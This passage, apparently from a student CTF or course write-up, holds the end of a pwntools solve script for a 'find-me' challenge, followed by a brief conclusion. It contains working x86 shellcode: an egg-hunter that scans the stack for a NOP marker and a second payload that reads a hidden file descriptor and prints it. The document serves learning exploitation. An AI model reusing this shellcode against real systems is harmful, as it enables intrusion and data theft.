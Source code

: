 #p = process('./find-me')
#pause()
p = remote('plsdonthaq.me', 3003)

p.readuntil('new stack ')
addr = p.readuntil('\n', drop=True).decode()

smallCode = asm('''
lp:
    pop eax
    cmp eax, 0x90909090
    jne lp
    jmp esp

''')

p.sendline(smallCode)
p.readuntil('bigbuf shellcode:')
bigCode = asm('''

sub esp, 0x200
mov eax, 0x3
mov ebx, 1000
mov ecx, esp
mov edx, 0x200
int 0x80


mov edx, eax
mov eax, 0x4
mov ebx, 1
mov ecx, esp
int 0x80

''')

padding = asm('nop') * ((0x100 - len(bigCode))//2)
p.sendline(padding + bigCode + padding)

p.interactive()
```

## Conclusion

---

Wow, you weren't lying when you said `make sure to print, read and memorise the intel x86 manual`. Finding instructions to make smaller shellcode was a very interesting task, especially because I couldn't find consise documentation.

Overall, shellcode was pretty fun.

> _All we need now is for someone to make a JavaScript plugin for this_

